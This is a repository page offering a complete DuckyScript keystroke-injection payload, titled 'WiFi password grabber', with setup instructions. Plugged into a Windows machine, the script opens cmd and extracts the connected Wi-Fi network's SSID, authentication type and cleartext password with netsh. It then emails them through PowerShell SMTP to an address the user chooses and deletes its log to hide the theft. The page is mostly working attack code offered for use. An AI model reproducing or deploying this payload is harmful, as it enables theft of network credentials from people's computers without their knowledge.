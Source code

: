 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send the content of Log.txt to

## **Code**;
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 3
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000

REM --> Minimize all windows
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER

REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER

REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER

REM --> Delete A.txt
STRING del A.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of Log.txt instead the file itself

### Suggestions;
**If you have any suggestions, write them down here.**